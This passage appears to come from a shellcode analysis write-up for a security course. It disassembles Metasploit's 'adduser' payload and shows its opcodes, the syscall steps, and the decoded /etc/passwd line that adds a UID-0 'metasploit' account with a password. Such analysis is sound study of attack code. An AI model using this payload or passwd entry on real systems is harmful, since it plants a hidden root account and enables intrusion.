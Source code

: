 After the `open` function, the file descriptor that references the opened file is stored in `EAX`. The `XCHG EAX, EBX` serves to swap the values stored within `EAX` and `EBX`. Therefore, `EBX` now holds the file descriptor returned by `open`. The `CALL 0x53` instruction is used in the same manner as previously explained in the analysis of the `exec` payload. In short, the memory address of the next instruction (`0000002B`) is stored on the stack and execution flow is redirected to the instructions present at `0x53` bytes from the start of the shellcode.

```nasm
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
```

Converting the contents present between the memory address `0000002B` and `00000053` (where execution flow will continue as a result of the previous `CALL 0x53` instruction) to ASCII reveals the following:

```shell
>>> print('\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68')          
metasploit:Az/dIsj4p4I4IRc:0:0::/:/bin/sh
```

This string specifies the contents that will ultimately be written to the `/etc/passwd` file and is in the same format as other entries in the `/etc/passwd` file. As the `adduser` payload was generated with default parameters, the user that will be added to the `/etc/passwd` file is called `metasploit`, the password for the user will be `Az/dIsj4p4I4IRc`, the user will have a user identifier number of `0`, a group identifier number of `0`, and will use `/bin/sh` as a default shell.

Using `ndisasm` once again to analyze the instructions present at `00000053` where execution flow has been redirected by `CALL 0x53` shows the following:

```shell
root@kali:~/SLAE/assignment-5# echo -ne "\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -b 32 -p intel -
00000000  59                pop ecx
00000001  8B51FC            mov edx,[ecx-0x4]
00000004  6A04              push byte +0x4
00000006  58                pop eax
00000007  CD80              int 0x80
```
